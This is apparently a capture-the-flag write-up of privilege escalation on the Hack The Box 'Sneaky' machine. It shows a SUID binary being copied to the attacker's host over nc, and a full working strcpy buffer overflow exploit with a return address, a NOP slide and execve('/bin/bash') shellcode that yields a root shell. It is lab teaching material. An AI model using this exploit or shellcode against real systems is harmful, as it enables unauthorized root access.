



# 20 - PrivEsc

# SUID binary



# Segfault

```bash
thrasivoulos@Sneaky:/dev/shm$ /usr/local/bin/chal
Segmentation fault (core dumped)
thrasivoulos@Sneaky:/dev/shm$ /usr/local/bin/chal  test
thrasivoulos@Sneaky:/dev/shm$ /usr/local/bin/chal $(python -c 'print "A" *600')
Segmentation fault (core dumped)
```


# File transfer
```bash
thrasivoulos@Sneaky:/dev/shm$ cat /usr/local/bin/chal | nc 10.10.14.18 9001
┌─[user@parrot]─[10.10.14.18]─[~/htb/sneaky/suid]
└──╼ $ nc -lvp 9001 > chal
listening on [any] 9001 ...
10.10.10.20: inverse host lookup failed: Unknown host
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.20] 37278
┌─[user@parrot]─[10.10.14.18]─[~/htb/sneaky/suid]
└──╼ $ file chal 
chal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=fc8ad06fcfafe1fbc2dbaa1a65222d685b047b11, not stripped
```

# CheckSec



# Strcpy buffer overflow


It's a straight forward buffer overflow vulnerability. strcpy doesn't care if the buffer is big enough


# Exploit
```bash
thrasivoulos@Sneaky:/dev/shm$ ./chal $(python2 -c 'print "A"*362 + "\x0c\xf4\xff\xbf" +"\x90"*150 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
bash-4.3# id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(thrasivoulos)
bash-4.3# 
```


* 362 bytes to fill up the buffer
* 0xbffff40c is for jumping to the NOP slide
* 150 byte long 0x90 slide # we don't know the address our shell code starts
* shellcode for execve(''/bin/bash'')  http://shell-storm.org/shellcode/files/shellcode-606.php
